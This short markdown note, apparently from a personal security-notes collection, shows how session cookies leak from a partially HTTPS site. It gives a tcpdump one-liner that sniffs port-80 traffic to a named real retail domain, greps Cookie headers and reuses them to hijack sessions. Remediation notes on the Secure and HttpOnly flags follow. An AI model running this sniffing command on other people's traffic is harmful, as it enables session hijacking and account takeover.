 
## Stealing Session Cookies with Tcpdump

[source](http://nullprogram.com/blog/2016/06/23/)

Partial HTTPS protected page emitting session cookie on non-https resources.

```
DESTINATION_DOMAIN='www.roadrunnersports.com'
DESTINATION_PORT='80'

## -A (ASCII) dump selected packet content
## -l (line-buffered) sets output to line-buffered
tcpdump -A -l dst $DESTINATION_DOMAIN and dst port $DESTINATION_PORT | \
  grep '^Cookie: '
```

Duplicating cookie data for resource and voila.

---

#### Solution

Quick and dirty thing, until get all on HTTPS.

* [Secure](https://tools.ietf.org/html/rfc6265#section-4.1.2.5)
> limits scope of cookie to `secure` channels, typically HTTPS
> protect's only cookies confidentiality
> active attacker can overwrite from insecure channel and disrupt integrity

* [HttpOnly](https://tools.ietf.org/html/rfc6265#section-4.1.2.6)
> limits scope of cookie to HTTP requests
> makes client to omit cookie when providing access to cookies via `non-HTTP` APIs
> prevents javascript from accessing them

---
---
